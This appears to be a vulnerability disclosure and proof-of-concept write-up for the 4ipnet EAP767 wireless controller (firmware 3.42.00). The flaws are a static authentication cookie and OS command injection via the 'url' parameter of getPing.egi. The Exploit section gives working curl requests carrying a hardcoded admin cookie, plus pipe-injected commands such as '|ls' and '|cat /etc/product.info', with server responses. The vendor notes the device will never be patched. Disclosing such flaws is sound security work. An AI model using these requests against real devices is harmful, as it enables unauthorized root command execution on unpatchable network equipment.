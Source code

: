 # 4ipnet/EAP767 WRT Vulnerabilities
## Overview
4ipnet/EAP767 WRT is vulnerable to Incorrect Access Control and OS Command Injection
## Products Affected
EAP767 - 3.42.00
## Description
- The device is vulnerable to Incorrect Access Control. It uses the same set of credentials, regardless of how many times a user logs in, the content of the cookie remains unchanged([CWE-284](https://cwe.mitre.org/data/definitions/284.html)).
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
An attacker may inject arbitrary shell commands with valid credentials, and it be executed by the device with root privileges.
## Solution
- Stop using the products and switch to alternative products
- The developer has disbanded in Oct 2020, and the firmware updates will not be provided.
## Mitigation 
- Disable internet access. 
- Change default credential.
## Device Features 
The login web page is exposed to internet, and it's used for 4ipnet wireless network controller
> Search online documents to obtain the default password for the device.

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)

**Web console features**

System Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

Network Utilities
`allowing network tests such as ping, tracert, arping, etc., to be performed through the web page.`
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit
**Phase 1 @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, analysis HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


We gather two http request characteristics.
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
> It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
> Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged.

| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**Phase 2 @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` file and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command

**Attemp 1 with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp 2 with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)



## Verify the device product and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)

## Conclusion
The presence of a Remote Code Execution (RCE) vulnerability is in the product. Arbitrary commands can be executed by passing the url parameter.

## Reference
- https://hkitblog.com/12770/
- https://www.lienshen.com.tw/sidebar1_01-2-11.html
- https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
